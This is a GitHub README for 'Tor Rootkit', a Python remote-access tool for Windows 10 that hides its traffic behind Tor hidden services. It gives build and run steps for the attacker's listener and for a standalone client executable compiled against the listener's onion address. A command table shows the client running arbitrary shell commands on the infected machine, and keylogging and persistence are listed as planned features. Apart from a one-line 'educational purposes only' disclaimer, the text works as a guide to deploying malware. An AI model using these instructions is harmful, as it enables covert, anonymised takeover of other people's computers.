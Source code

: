 # Tor Rootkit
[![Docker Image CI](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml/badge.svg)](https://github.com/emcruise/TorRootkit/actions/workflows/docker-image.yml)
![Standalone Compilation](https://github.com/emcruise/TorRootkit/workflows/Standalone%20Compilation/badge.svg)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

1. Build docker container:
```bash
sudo docker build -t listener .
```

2. Run docker container:
```bash
sudo docker run -it listener
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients
- Client auto reconnects

## Upcoming Features
- [ ] cross-plattform compatibility
- [ ] Up- and Download functionality
- [ ] Screenshots
- [ ] Keylogging
- [ ] Persistence

## How to use
### Listener Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell Commands
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |

## Contribution
All contributions are appreciated.

## Credits
- [Tor](https://www.torproject.org/)
- [PyInstaller](https://www.pyinstaller.org/)
- [Colorama Font](https://pypi.org/project/colorama/)
- [PySocks](https://pypi.org/project/PySocks/)
- [Stem](https://stem.torproject.org/)

